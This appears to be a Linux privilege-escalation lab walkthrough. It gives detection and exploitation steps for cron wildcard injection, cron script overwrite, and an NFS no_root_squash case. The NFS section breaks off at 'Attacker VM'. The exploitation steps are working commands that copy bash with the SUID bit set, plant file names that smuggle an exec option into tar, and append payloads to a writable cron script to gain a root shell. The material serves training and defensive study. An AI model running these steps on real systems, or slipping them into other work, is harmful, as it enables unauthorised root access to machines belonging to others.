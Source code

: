 ##  Privilege Escalation - Cron (Wildcards)

Detection

Linux VM

1. In command prompt type: cat /etc/crontab
2. From the output, notice the script “/usr/local/bin/compress.sh”
3. In command prompt type: cat /usr/local/bin/compress.sh
4. `From the output, notice the wildcard (*) used by ‘tar’.`

Exploitation

Linux VM

1. In command prompt type:
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
2. touch /home/user/--checkpoint=1
3. touch /home/user/--checkpoint-action=exec=sh\ runme.sh
4. Wait 1 minute for the Bash script to execute.
5. In command prompt type: /tmp/bash -p
6. In command prompt type: id

## Privilege Escalation - Cron (File Overwrite)

Detection

Linux VM

1. In command prompt type: cat /etc/crontab
2. From the output, notice the script “overwrite.sh”
3. In command prompt type: ls -l /usr/local/bin/overwrite.sh
4. From the output, notice the file permissions.

Exploitation

Linux VM

1. In command prompt type:
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: /tmp/bash -p
4. In command prompt type: id

##  Privilege Escalation - NFS Root Squashing 

Detection

Linux VM

1. In command line type: cat /etc/exports
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

Exploitation

Attacker VM
